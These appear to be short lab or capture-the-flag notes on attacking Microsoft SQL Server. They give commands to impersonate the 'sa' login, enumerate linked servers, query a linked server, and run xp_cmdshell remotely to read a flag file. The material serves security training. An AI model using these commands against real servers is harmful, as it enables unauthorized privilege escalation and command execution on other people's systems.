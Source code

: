 (We can impersonate sa which has sysadmin access)
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

Connect to master DB with 'USE master' if presented with error

To return to our previous user, use 'REVERT'

Identify linked Servers in MSSQL
```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```
Output:
- 1 = remote server
- 0 = linked server

```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
**NOTE you must use two single quotes to execute commands on linked server
Example: 
EXECUTE ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]

